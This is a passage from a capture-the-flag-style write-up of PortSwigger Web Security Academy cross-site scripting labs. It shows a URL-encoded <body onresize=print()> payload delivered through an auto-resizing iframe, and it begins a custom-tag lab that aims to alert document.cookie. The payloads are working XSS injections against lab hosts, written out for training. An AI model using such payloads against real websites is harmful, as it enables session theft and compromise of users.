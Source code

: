 

![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/16.png)



We will send this last one inside an iframe:

```
https://0ad100ff04e7e76582e088af00ae0026.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E
```

```
<iframe src="https://0ad100ff04e7e76582e088af00ae0026.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" height="100%" title="Iframe Example" onload=body.style.width='100%'></iframe>
```

18 Reflected XSS into HTML context with all tags blocked except custom ones
===========================================================================

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom
tag and automatically alerts document.cookie.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts

The content of the search is reflected inside a h1 HTML element:

![img](media/b018bae71b411d989936940912f99246.png)

I will send the following payload to Intruder:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<tag attrib=alert(1)>text</tag>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
